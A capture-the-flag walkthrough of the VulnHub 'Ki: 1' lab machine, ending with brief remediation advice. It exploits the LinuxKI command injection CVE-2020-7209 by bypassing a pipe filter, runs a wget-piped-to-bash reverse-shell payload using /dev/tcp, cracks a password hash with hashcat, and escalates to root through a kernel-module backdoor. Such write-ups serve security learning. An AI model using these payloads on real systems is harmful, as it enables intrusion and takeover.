

# Ki 1

Difficulty:: #Easy
> Classified according to [Vulhub difficulty page](https://www.vulnhub.com/difficulty/)

## Target data
- Link: [Ki: 1](https://www.vulnhub.com/entry/ki-1,641/)
- CVSS3 : [AV:N/AC:H/PR:N/UI:N/S:C/C:H/I:H/A:H/E:F/RL:O/CR:H/IR:H/AR:H](https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:H/PR:N/UI:N/S:C/C:H/I:H/A:H/E:F/RL:O/CR:H/IR:H/AR:H)
  > **Warning**: I select the CVSS3 score to start to practice, so is very possible that I made a mistake in the selection, so do not trust of that CVSS3.

## Machine Description
Not available


## Summary
Ki: 1 starts with a comment inside the source-view of the HTML index website made by `chris`, it gives a clue that exists a debug page, after run feroxbuster identify the `/debug.php` endpoint, which one return me information about that it uses the `runki` script of  `LinuxKi 6.0`, and it expects a `file` parameter. After perform a dictionary attack in the `file` values, I identify the  `timeline` value, that returns a PHP code where I can identify a `url_filter` function with blacklists parameters that are being filtered on the URL parameters. After google the `LinuxKI 6.0` I find the  [`CVE-2020-7209` with a PoC](https://www.exploit-db.com/exploits/48483) that affects the `/linuxki/experimental/vis/kivis.php` endpoint. But because of the blacklist I can not use some of the bash symbols, but there was an issue in the blacklist , it filter only `' |'` with the space before instead of the single  pipeline `'|'` , with that I could bypass the command using the pipeline and run bash commands as the `www-data` user, with that I could perform a reverseshell. When exploring the server identify the user flag, and the `.htpasswd` file with the pasword hash of the  `chris` user. I was able to crack it with `hashcat` and reused to connect with `ssh` to the `chris` shell. After exploring the server identify that `chris` can run `/usr/bin/kmod` and the binary has `setuid` permissions, then `chris` can insert kernel modules with root privileges, that leave to an `Loadable Kernel Module - LKM backdoor` vulnerability. And with a tool like  [`Pinkit`](https://github.com/PinkP4nther/Pinkit) I can perform a reverse TCP Netcat shell to get the root shell.


1. CWE-0615: Inclusion of sensitive information in source code comments
2. CWE-200: Exposure of Sensitive Information to an Unauthorized Actor
3. CWE-209: Generation of Error Message Containing Sensitive Information
4. CWE-78: Improper Neutralization of Special Elements used in an OS Command
5. CWE-260: Password in Configuration File
7. CWE-0916: Use of Password Hash With Insufficient Computational Effort
8. `Loadable Kernel Module - LKM backdoor` vulnerability

#VirtualBox #Nmap #HashID #HashCat #Python #Feroxbuster #Ffuf #LinuxKI #Kernel #Kmod #Pinkit #LKMBackdoor #insmod

## Enumeration
When I run the target machine in VirtualBox (see the [setup vulnhub machines](../setup-vulnhub.md), and on my target machine, I run the `netdiscover` command:
```shell
$ sudo netdiscover -i enp0s3 -r 192.168.2.0/24
```
Then I compare the MAC with that of the target VirtualBox configuration
And I find out that the IP is `192.168.2.17`


And I start scanning the target with Nmap:
```shell
$ nmap -p- -sV -oA scans/nmap-full-tcp-sca 192.168.2.17
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-11 15:55 EST
Nmap scan report for 192.168.2.17
Host is up (0.0020s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 375.96 seconds
```
And I identify 2 open ports ,the `OpenSSH 8.2p1` service runs in `22` TCP,  and `Apache httpd 2.4.41` service runs in `80` TCP,  and is `Ubuntu 4ubuntu0.1`.

## Normal use case

Given I can access `http://192.168.2.17`, then I can see


But it does not have any link to another endpoint.

## Dynamic detection
`Linuxki 6.0` is vulnerable to remote code injection `CVE-2020-7209`

When I look at the source code in the browser inspector on the index page, then I can see a comment on line 76:
```html
76 <!-- T-56818 Link removed due to bug report. Will remove the debug
   page later - chris -->
```
And I can see the username `chris`, and it mentions a debug page, maybe an endpoint to do the debugging
When I run the `Feroxbuster` command with a list of `SecLists`:
```shell
$ feroxbuster -w directory-list-2.3-small.txt -u http://192.168.2.17 \
> -x php,html,txt,md

...
200 GET 5l 36w 194c http://192.168.2.17/debug.php
...
```
Then I can see a `/debug.php` endpoint. When I visit it with the `curl` command:
```shell
$ curl http://192.168.2.17/debug.php
<!-- T-56819 - added file parameter for easier page navigation with \
  linuxki - chris -->
=== runki for Linux version 6.0
!!! runki script must be run as root
!!! currently logged in with UID 33
```
Then it says there is a parameter called `file`, and maybe I can get a different output with that parameter, and it runs with `Linuxki`, and it uses the `runki` script, and it says that the website runs with the user `www-data UID 33`.

When I google `Linuxki`, then I find the [LinuxKI Github repository ](https://github.com/HewlettPackard/LinuxKI), and it says it is a trace base performance analysis tool. When I use the `ffuf` command with a list in `SecLists` to identify a valid parameter:
```shell
$ ffuf -w directory-list-2.3-small.txt:FUZZ -u \
> "http://192.168.2.17/debug.php?file=FUZZ" -fs 194

...
timeline    [Status: 200, Size: 5522, Words: 889, Lines: 117]
...
```
Then I get a valid value `timeline`. When I use `curl` with the `timeline` parameter:
```shell
$ curl "http://192.168.2.17/debug.php?file=timeline"
```
Then I get the output with a PHP code :


When I read the code, I identify that there is a blacklist chars that are filtered, and I also identify the `Linuxki` paths, then I try to call the `/linuxki` endpoint, and it exists, but I do not have permissions:


When I use Feroxbuster with the `/linuxki/` prefix, then I find the directories. and the files that exist in the `Linuxki` repository :


Given I know it runs the `LinuxKI` version `6.0`, and I google `linuxki 6.0 exploit`, then I find the [`CVE-2020-7209` with a PoC](https://www.exploit-db.com/exploits/48483), and I read the PoC python exploit, and identify that it sends a payload in a GET requests, then I try to identify the remote code injection vulnerability, and in this way I only use the payload of the PoC. When I try the URL payload in the target:
```http
http://192.168.2.17/linuxki/experimental/vis/kivis.php?type=kitrace
&pid=15;echo%20BEGIN;id;echo%20END;
```
Then I get the output:


When I start playing with the payload, then I notice that some characters are removed, and those are in the PHP code found above with the `timeline` parameter, and I can see them in the `url_filter` function returned by the `timeline` from lines 6 to 11:
```php
...
06    ';' => '',
07    '&' => '',
08    '$' => '',
09    '(' => '',
10    ')' => '',
11    ' |' => '',
...
```
But I notice that line 11 has `' |'` instead of `'|'`, thats means that its only filter the pipeline when there is a space before. When I send the payload `'|id %23'`, then the command is executed:


And I can verify the remote code injection vulnerability.

## Exploitation
Remote command injection and insert kernel module to get the root shell.

Given I can access the `/linuxki/experimental/vis/kivis.php` endpoint, and the `LinuxKI` version is `6.0`, and the `url_filter` function is misconfigured, and it allows using the character `'|'`, Then I can try to perform a reverse shell.
When I create a file called `rs.sh` with the code:
```shell
01  #!/bin/bash
02  bash -c  'bash -i >& /dev/tcp/192.168.2.6/1234 0>&1'
```
And I start an `HTTP` server with Python:
```shell
$ python -m http.server 8000
```
And I open a listener with the `nc` command:
```shell
$ nc -lvnp 1234
```
And I do a GET request with the following payload:
```
wget%20%20-O-%20192.168.2.6:8000/rs.sh|bash%20%23
```
Then I get the reverse shell :



When I explore the server, then I can see the user flag. And a `reminder.txt` file, and the `.htpasswd` file has a hash for chris's password:


When I store the found hash in a file called `chis.hash`, and I identify the hash type with the `hashid` command:
```shell
$ hashid chris.hash
Analyzing '3c8215a24ce02091d3f52c6c881ec3ea'
[+] MD2
[+] MD5
[+] MD4
...
```
Then I guess it is an MD5 hash. When I use the `hashcat` command with the Rockyou list:
```shell
$ hashcat -a 0 -m 0 chris.hash rockyou.txt --force
...
3c8215a24ce02091d3f52c6c881ec3ea:beermeplease
...
```
Then I  confirm that I can crack the hash. When I try to reuse the password with the `ssh` command:
```
sshpass -p "beermeplease" ssh chris@192.168.2.17
```
Then I can access chris's shell:


And I confirm that chris reuses the password. When I use the `find` command:
```shell
chris@ki:~$ find / -group chris -ls 2>/dev/null | \
> grep -v /proc | grep -v /sys | grep -v /run | grep -v /home

747  172 -rwsr-xr-x  1 root  chris  174424 Mar 12  2020 /usr/bin/kmod
```
Then I can identify that the `setuid` permission is available on that binary, and that the user `chris` has executable permissions, and I remember that the `reminder.txt` file gives me a hint, and it is that the kernel can probably be exploitable. when I check the `/usr/bin/kmod` command:
```shell
$ chris@ki:~/Pinkit$ /usr/bin/kmod --version
kmod version 27
+XZ -ZLIB +LIBCRYPTO -EXPERIMENTAL
```
When I check the `.bash_history` file:
```shell
$ chris@ki:~$ cat .bash_history
...
git clone https://github.com/PinkP4nther/Pinkit
...
```
Then I can see the `Pinkit` repository, when I go to the [`Pinkit` repository](https://github.com/PinkP4nther/Pinkit), then I find out that it is a tool that executes a reverse TCP Netcat shell, and it works when there is an  `Loadable Kernel Module backdoor`  -`LKM Backdoor`, and that allows privilege escalation, when I upload the repository on the target machine, and I follow the instructions of the repository, then I get the root shell, and I find the root flag:


But to understand why this works, and to identify where the LKM Backdoor is, then I remember the `/usr/bin/kmod` found with the setuid privileges. When I check the version of the `insmod` command:
```shell
$ chris@ki:~/Pinkit$ insmod --version
```
Then I get the same output as with the `/usr/bin/kmod` binary, when I research about it and explore the files, and I notice that `insmod` is a symbolic link to `kmod`:


And because the user `chris` has execution permissions, and the binary has setuid permission, then I can conclude that the user `chris` can insert kernel modules, and it does it with root privileges.

## Remediation
Given the remote code injection vulnerability `CVE-2020-7209`, then upgrade from `Linuxki 6.0` to the latest version, and do not expose tools like this to any unauthorized users, and do not use leaked passwords, and do not reuse the shell user password on the website, then with that, it might not be possible to get chris's shell.